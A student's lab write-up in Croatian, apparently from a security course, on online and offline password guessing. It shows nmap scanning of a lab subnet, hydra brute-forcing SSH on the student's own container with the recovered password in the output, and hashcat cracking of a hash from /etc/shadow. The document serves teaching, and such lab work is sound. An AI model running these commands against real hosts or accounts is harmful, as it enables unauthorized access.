 # Lab 5 - Online and Offline Password Guessing

 Alati koji nam trebaju za ovu vježbu su nmap, hydra i hashcat. 
 Osnovne informacije o nmap-u možemo saznati komandom whatis.
 ```whatis nmap
nmap (1)             - Network exploration tool and security / port scanner
```
Koristimo nmap na lokalnoj mreži: 
```nmap -v 10.0.15.0/28
```
Nmap skenira dostupna računala i traži otvorene portove.
Na http://a507-server.local/ pronalazim docker container koji mi pripada. Njegov username je vrandecic_daniel, a IP adresa 10.0.15.0. Ne mogu se povezati
na svoj container pomoću ssh vrandecic_daniel@10.0.15.0 jer je potrebna lozinka koju ne znam.
Znamo da lozinka ima 4 do 6 znakova koji mogu biti od a do z (lowercase) - ukupno 26 mogućih znakova.
Postoji 26^4 mogućnosti ako ima 4 znaka, 26^5 ako ima 5 znakova ili 26^6 ako ima 6 znakova.
Ukupan password space je 26^4 + 26^5 + 26^6 što je približno 2^29. 

Pozivamo hydra s poznatim korisničkim imenom, IP adresom containera i ograničenjima lozinke.
```hydra -l vrandecic_daniel -x 4:6:a 10.0.15.0 -V -t 4 ssh```
U outputu je navedeno da je rate 64 test/s = 2^6 test/s. Budući da je lozinka vjerojatno u prvoj polovici password spacea veličine 2^29, dovoljno je 2^28 testova.
Potebno vrijeme da ih se izvrši uz navedeni rate je T = 2^28/2^6 = 2^22 min, što je približno 8 godina. To vrijeme je predugo pa koristimo već gotov dictionary
koji
skidamo sa servera: ```wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g5/```.
Sada pozivamo hydra s dobivenim dictionaryjem: ```hydra -l vrandecic_daniel -P dictionary/g5/dictionary_online.txt 10.0.15.0 -V -t 4 ssh```.

```[22][ssh] host: 10.0.15.0   login: vrandecic_daniel   password: byllyt
1 of 1 target successfully completed, 1 valid password found
```

Konačno je pronađena lozinka za moj container, byllyt, i sada se mogu prijaviti u container.

#Offline Password Guessing

U /etc/shadow su hashevi lozinki. Željeni hash spremamo u hash.txt. Pokušamo pronaći lozinku pomoću 
```hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10```, ali vidimo da bi na ovaj način trebalo bi previše vremena, pa koristimo
lokalni dictionary. 
```hashcat --force -m 1800 -a 0 hash.txt dictionary/g5/dictionary_offline.txt --status --status-timer 10```.
Nakon nekog vremena hashcat pronalazi traženu lozinku.
